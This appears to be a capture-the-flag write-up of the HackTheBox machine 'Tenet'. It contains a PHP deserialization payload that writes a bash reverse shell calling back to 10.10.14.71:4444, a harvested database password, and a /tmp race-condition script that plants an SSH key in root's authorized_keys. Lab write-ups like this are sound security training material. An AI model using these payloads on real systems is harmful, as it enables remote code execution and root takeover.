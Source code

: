 HTB IP: 10.10.10.223

-------------------------
# Enumeration

Some basic nmap scan show us that this box has 2 opening ports : `22,80` 

Directory enumeration with `gobuster`

`gobuster dir -u http://10.10.10.223 -w <word_list>`

```
/wordpress
/wordpress/wp-content           (Status: 301) [Size: 327] [--> http://10.10.10.223/wordpress/wp-content/]
/wp-includes          (Status: 301) [Size: 328] [--> http://10.10.10.223/wordpress/wp-includes/]
/wp-admin             (Status: 301) [Size: 325] [--> http://10.10.10.223/wordpress/wp-admin/]
```

Heading to `10.10.10.223/wordpress/` , we realize that the website is fetching css from `tenet.htb` website => We will add that to our virtual host file `etc/hosts` 

Visit `http://tenet.htb/wordpress/` website
We find some interesting post about The Migrations, apparently they are migrating their website, we also found a potential username `neil` with the comment

```
did you remove the sator php file and the backup?? the migration program is
incomplete! why would you do this?!
```

So there is a `sator.php` file and apparently a backup too ?. That could be our lead
After a while fuzzing for the file in `tenet.htb` , I got no luck with it. So I ask some of my fellow hackers on HTB forum, turn out there is another virtual host 
So we try to add `sator.tenet.htb` to our `/etc/hosts` file

Now we go to `http://sator.tenet.htb/sator.php` , and we saw this content
<img width="565" alt="image" src="https://user-images.githubusercontent.com/37280106/113422704-5d82f200-93f7-11eb-8efa-567a4c0e2ccb.png">

So there was a `sator.php` file and it was executed in the background. There was some mentions about back up file too.
Now, backup file used to have the extension `.bak`. So I tried `sator.tenet.htb/sator.php.bak` and it just download the file to my machine

```
// cat sator.php.bak
<?php

class DatabaseExport
{
        public $user_file = 'users.txt';
        public $data = '';

        public function update_db()
        {
                echo '[+] Grabbing users from text file <br>';
                $this-> data = 'Success';
        }
        public function __destruct()
        {
                file_put_contents(__DIR__ . '/' . $this ->user_file,
$this->data);
                echo '[] Database updated <br>';
        //      echo 'Gotta get this working properly...';
        }
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();
```
Now, let's analyze the code:
- It is getting query param `?arepo=` 
- Now it is deserialize the user input

So it just look like normal data processing, but we notice that trust user's input is a dangerous thing !!. In any cases, take user's input without proper sanitization is always a big risk !!.

We might be exploit the insecure object deserialization in code ( In this case, it is PHP Object Injection). [Here](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) is a blog post about it

# Exploitation

Here is a class called DatabaseExport with a `__destruct` function implemented. This function is what we can use to get RCE. The function uses `file_put_contents` to write the variable `data` to the file defined in the variable `user_file`. If we go over to the URI `sator.tenet.htb/users.txt`, we see that the file exists and prints `SUCCESS`

Now, to exploit this, we can do the following:
- We write the class `DatabaseExport` on our local machine, define the `user_file` variable to be our php file, and `data` is our reverse shell payload
- We serialize our payload and pass it to variable `?arepo=`
- The input get passed to `unserialize` function and a new class `DatabaseExport` instance was created with our defined variables
- At the `__destruct` function, our reverse shell get written into root directory of web directory and our defined php file name `user_file` (php-revshell.php) in this case, so if we go to that URL, we will got our reverse shell


RCE Payload:

```
class DatabaseExport {
  public $user_file = 'php-revshell.php';
  public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.14.71/4444 0>&1\'"); ?>';
  }

print urlencode(serialize(new DatabaseExport));
```

Now we just need to execute this to get reverse shell:
`curl http://sator.tenet.htb/php-revshell.php` 

# Post Exploitation

1. Priviledge Escalation - User

Doing some basic enumeration:
```
sudo -l
```
show us that we can run `/usr/local/bin/enableSSH.sh` this script with root priviledge 

Now, when we are inside a machine that run a web server, we have to check for config file, db file first because data have to be stored somewhere

`cat wp-config.php`
```
/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );
```

User credentials: `neil: Opera2112`
=> SSH to machine as neil user, grab the `user.txt` flag

2. Priviledge Escalation - Root

Check out the `enableSSH.sh` file, we found an interesting function
```
addKey() {

        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)

        (umask 110; touch $tmpName)

        /bin/echo $key >>$tmpName

        checkFile $tmpName

        /bin/cat $tmpName >>/root/.ssh/authorized_keys

        /bin/rm $tmpName

}
```
Let's analyze the code
- It creates a tmp name /tmp/ssh-XXXXXXXX (XXXXXXXX is random characters, could be anything)
- Create a file with /tmp/ssh-XXXXXXXX name and allow permission to write to it
- Write SSH key to root authorized key
- Remove file

To hijack this execution flow, we need to write our SSH key to /tmp/ssh-XXXXXXX file before it is deleted
```
#/bin/bash
while [ 0 ]; do
    for file in /tmp/*
    do
       [ -f "$file" ] || continue
       echo "your ssh_key" > $file
       echo "Write to $file"
    done
done
```
We wrote an infinite loop to write to all the files exist in /tmp directory
`./writeKey.sh 2>/dev/null` 
Execute `./enableSSH.sh` script, and then your SSH key should be written in root `authorized_keys`
SSH to root => grab `root.txt`
